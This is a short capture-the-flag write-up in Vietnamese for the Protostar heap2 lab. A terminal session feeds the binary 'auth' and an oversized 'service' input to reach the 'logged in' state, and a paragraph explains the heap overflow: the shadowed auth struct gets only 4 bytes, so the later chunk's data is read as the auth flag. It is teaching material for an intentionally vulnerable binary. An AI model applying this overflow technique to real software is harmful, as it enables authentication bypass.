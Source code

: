 ```
user@protostar:/opt/protostar/bin$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]

```

Bài này 2 cái auth nó trùng tên, khi truyền vào malloc nó sẽ ưu tiên khai báo gần nhất ( đó là biến auth, thay vì struct auth ) => do đó chỉ cần allocate 1 chunk (dùng lệnh service) ngay sau chunk của auth rồi ghi một đống data vô, khi đó thì khi refer đến auth->auth nó sẽ tìm đến địa chỉ cách vị trí trên heap của auth 32 byte ( chunk của auth chỉ có 4 bytes ) và tìm thấy data bị ta ghi vào => bypass authen

